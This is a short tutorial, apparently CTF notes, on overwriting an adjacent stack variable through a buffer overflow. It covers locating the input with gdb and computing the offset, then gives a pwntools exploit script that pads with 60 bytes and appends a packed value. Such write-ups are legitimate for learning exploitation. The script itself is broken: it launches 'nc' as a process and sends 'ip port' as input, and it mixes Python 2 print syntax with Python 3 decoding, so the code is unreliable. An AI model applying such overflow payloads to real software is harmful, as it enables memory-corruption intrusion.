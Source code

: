 Let's say a user input is taken and assigned to variable `A` and we want to control the value of another variable `B`.

First we set a breakpoint exactly after the function that's responsible for retrieving user input. Say it's `getf`. In gdb this would be

```
gdb -q ./binary
b *main+50
```

Now `50` could be anything else that corresponds to the address of the `getf`. You can find this number by executing the below in gdb and locating the line that mentions `getf` or the function that takes user input.

```
disass main
```

Back to the breakpoint, after setting the breakpoint you can continue running the program

```
r
```

Enter your input and then observe the stack of the program. Highlight the hex location of your input and the location of the variable you want to control. Subtract them and convert to decimal. This would give you how many bytes you need to provide in the user input to reach the variable you want to control.

Then an exploit code can be like the sample below. The below sample assumes that you are exploiting the binary by connecting to it via netcat.

It also assumes that you have calculated the distance between the desired variables we talked about above and it was `60`

Next the script also assumes that your payload needs 60 byte to reach another variable which needs to be of a certain value in hex (this value can be found by using Ghidra or a debugger). If that variable was equal to this `value` then it enters an if statement and execute our code whose output is received in the last line of the code

```python
from pwn import *

target = process("nc") 

target.sendline("ip port")

payload = "A"*60  

byte_to_string = p64(value)

payload = payload + byte_to_string.decode("ISO-8859-1")

target.sendline(payload)  

print target.recvuntil(".")
```
